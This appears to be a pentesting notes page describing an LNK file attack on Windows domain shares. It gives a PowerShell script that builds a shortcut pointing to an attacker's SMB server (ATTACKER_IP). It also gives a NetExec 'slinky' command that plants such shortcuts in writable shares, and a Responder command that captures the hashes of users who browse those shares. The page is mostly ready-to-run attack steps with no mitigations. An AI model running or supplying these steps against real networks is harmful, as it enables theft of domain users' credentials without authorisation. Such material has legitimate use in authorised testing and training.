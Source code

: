 # LNK File Attacks

The logic under this attacks is to create a link file connected to a attacker's SMB server. Putting this file to a shared directory into a domain (for example inside a DC) , when a user access to it, the file trying to connect with attacker's SMB server sending the user credentials.



## Craft the file

### Powershell craft

Open powershell with Administrator privilege and create this file connected to out kali machine.

```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\@test.lnk") # use @ to put the file in top
$lnk.TargetPath = "\\ATTACKER_IP\@test.png" # TOCHANGE IP
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

Once we have this file, we have to put it in some shared directories.

### NetExec craft

Another way to craft this file is using `slinky` module of `NetExec` tool.

This module **will create a LNK file** with connection to our machine and **will try to add it to any shared directory** with WRITE permissions.

{% code title="NetExec" overflow="wrap" %}
```bash
netexec smb $DC_IP -d $DOMAIN -u $USER -p $PASS -M slinky -o NAME=test SERVER=$ATTACKER_IP
```
{% endcode %}



## Set Responder

Now, setting the responder tool to capture the credentials.

```bash
sudo responder -I eth0 -dP
```



Then, when anyone make access to the Shared Directory, the LNK file will send the credentials to out Responder.

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption><p>Shared Directory</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption><p>Captured hash with responder</p></figcaption></figure>

